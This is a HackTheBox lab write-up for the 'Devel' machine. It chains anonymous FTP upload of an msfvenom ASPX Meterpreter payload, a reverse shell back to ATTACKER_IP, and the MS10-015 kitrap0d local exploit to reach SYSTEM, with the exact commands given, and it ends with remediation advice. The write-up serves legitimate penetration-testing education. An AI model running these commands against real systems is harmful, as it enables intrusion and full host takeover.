 Devel — Anonymous FTP → ASPX webshell → Meterpreter → Local exploit → SYSTEM (Lab)

Date: 2025-10-19
TL;DR: Anonymous FTP allowed uploading an ASPX webshell; I uploaded a Meterpreter ASPX payload, triggered it via HTTP to get a session, enumerated the host, ran a local exploit suggester and used a 32-bit local exploit to escalate to NT AUTHORITY\SYSTEM. All testing performed on a retired HTB lab VM in an isolated environment. PoC artifacts in this writeup are sanitized.

Scope & permission

This work was performed on a retired HackTheBox machine in a lab I control. All commands and artifacts in this document are sanitized for public release. Do not run exploit code against third-party or production systems.

Environment (sanitized)

Target: TARGET_IP (devel)

Discovered services (sanitized):

FTP — anonymous allowed (Microsoft ftpd)

HTTP — Microsoft IIS 7.5 (IIS7)

OS: Windows (32-bit / x86) based on sysinfo from Meterpreter.



Tools used

nmap, ftp (or any FTP client), msfvenom (payload generation), msfconsole (multi/handler & local exploit), a web browser / curl to trigger uploaded webshell, netstat/ss, Meterpreter post modules (local_exploit_suggester), and common shell utilities. (All steps were performed in an isolated lab.)

Chain summary (short)

Port scan → anonymous FTP discovered.

Upload ASPX payload (Meterpreter) via anonymous FTP.

Trigger the ASPX payload through IIS to get a Meterpreter session.

Use Meterpreter to enumerate and confirm x86 (32-bit) target.

Run post/multi/recon/local_exploit_suggester to find suitable local exploits.

Launch a 32-bit local exploit (kitrap0d / MS10-015 variant in-lab) to spawn a SYSTEM session.

Grab user and root flags from the appropriate Desktop folders.

Detailed, reproducible (sanitized) steps
1) Initial scan

nmap -sCV -T4 --open -oA recon --stats-every 5s TARGET_IP

Observed (sanitized):

FTP (21) — Microsoft ftpd — anonymous FTP login allowed

HTTP (80) — Microsoft-IIS/7.5 (IIS7)

2) Confirm anonymous FTP and list files

ftp TARGET_IP
# username: anonymous
# password: (blank)
# ls

Noted aspnet_client/ (empty), iisstart.htm, and welcome.png — nothing immediately interesting in pages, but anonymous write/upload was possible.

3) Generate an ASPX Meterpreter payload (lab-only)

msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=LPORT -f aspx > devel.aspx

Notes: On restricted networks, ports <1024 may require privileges — choose a port you can receive on.

4) Upload the ASPX to the webroot via anonymous FTP

ftp TARGET_IP
# login as anonymous
put devel.aspx
# confirm the file is present (e.g., in IIS webroot)

If the FTP root maps to the IIS webroot, the uploaded devel.aspx becomes web-accessible (e.g., http://TARGET_IP/devel.aspx).

5) Set up a handler and trigger the webshell

Start a handler on your attacking host (msfconsole example):

# In msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST ATTACKER_IP
set LPORT LPORT
set ExitOnSession false
exploit -j

Trigger the webshell by browsing to the uploaded ASPX (or curl http://TARGET_IP/devel.aspx) — this should call back to your handler and create a Meterpreter session.

6) Interact with the Meterpreter session

# In msfconsole
sessions -i <id>
# Meterpreter prompt
sysinfo # confirm OS and architecture (Observed x86)
pwd # observed /windows/system32/inetsrv

From this session, I found myself running in c:\windows\system32\inetsrv and sysinfo reported 32-bit (x86), so further local exploits must match that arch.

7) Upload / move to writable folders (if needed)

Often the web context allows writing to C:\Windows\Temp or other temp locations. I used such a path to stage additional binaries/exploits as required.

8) Enumerate and suggest local exploits

Use Meterpreter’s local exploit suggester to find potential privilege escalation vectors:

run post/multi/recon/local_exploit_suggester

This returns a prioritized list of local exploits that may work on the target given OS/patch level/architecture.

9) Launch a 32-bit local exploit (lab-only)

Using msfconsole I executed the exploit against the Meterpreter session:

# in msfconsole
use exploit/windows/local/ms10_015_kitrap0d
set SESSION <meterpreter-session-id>
set LHOST ATTACKER_IP
set LPORT LPORT
set PAYLOAD windows/meterpreter/reverse_tcp
exploit -j

The exploit succeeded and a new background session (with SYSTEM privileges) was created.

Important: choose a local exploit appropriate to the discovered OS, arch, and patch level.

10) Verify SYSTEM and capture flags

# switch to the new session (e.g., session 4)
sessions -i <new-session-id>
getuid # shows NT AUTHORITY\SYSTEM
# then retrieve flags
cd C:\Users\<user>\Desktop
type user.txt
cd C:\Users\Administrator\Desktop
type root.txt

Impact

Full host compromise: anonymous FTP + writable webroot allowed remote payload upload → web-executable payload → remote shell → local exploit → SYSTEM.

On real systems this chain would allow attackers to access or exfiltrate sensitive data, create persistence, and move laterally.



Remediation (prioritized)

Disable anonymous FTP or restrict it to an isolated, non-webroot directory. Anonymous write access to a directory mapped to the webroot is a critical misconfiguration.

Harden IIS/FTP mapping: ensure uploaded files cannot be served/executed as code (deny execute permission on upload directories). Store user uploads outside the web-executable tree and serve them via safe proxies or with content-type checks.

Patch Windows and apply vendor fixes: keep systems up to date; the used local exploit targets known, patchable vulnerabilities.

Least privilege & segmentation: ensure web services run with minimal privileges and that local services do not run as SYSTEM unless strictly necessary.

Monitoring & alerting: alert on new files in webroot, anomalous FTP uploads, new setuid-like changes, or meterpreter-like callbacks (IDS/IPS).

File integrity & upload validation: validate uploads, restrict allowed extensions, and strip/scan for web-executable content.

